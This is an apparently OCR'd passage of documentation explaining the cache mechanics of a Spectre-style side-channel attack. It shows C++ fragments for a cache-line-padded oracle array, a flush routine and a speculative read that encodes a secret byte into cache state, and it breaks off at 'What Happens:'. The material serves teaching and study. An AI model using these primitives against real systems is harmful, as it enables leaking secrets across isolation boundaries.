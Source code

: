 -----

## 2. Cache Interaction Mechanisms

### How Code Gets Data To/From Cache

#### Cache Line Structure

```cpp
// BigByte is designed to fill entire cache line
struct BigByte {
    uint8_t value;
    uint8_t padding[63];  // Total: 64 bytes = 1 cache line
};
```

#### Oracle Array Setup

```cpp
std::array<BigByte, 256> oracle;  // 256 cache lines, one per possible byte value
```

**Memory Layout:**

```
Cache Line 0:  oracle[0]   (64 bytes) - represents byte value 0x00
Cache Line 1:  oracle[1]   (64 bytes) - represents byte value 0x01
Cache Line 2:  oracle[2]   (64 bytes) - represents byte value 0x02
...
Cache Line 255: oracle[255] (64 bytes) - represents byte value 0xFF
```

### Cache Operations in Attack

#### 1. Cache Flushing (`FlushOracle`)

```cpp
void FlushOracle() {
    for (auto &big_byte : oracle) {
        FlushFromDataCache(&big_byte, &big_byte + 1);
    }
}
```

**Purpose:** Remove all oracle entries from cache hierarchy
**Result:** All 256 cache lines evicted from L1/L2/L3 caches

#### 2. Speculative Cache Loading

```cpp
// During speculative execution:
char secret_byte = accessor->GetDataByte(offset, true);  // Gets secret value
ForceRead(oracle.data() + static_cast<size_t>(secret_byte));
```

**What Happens:**
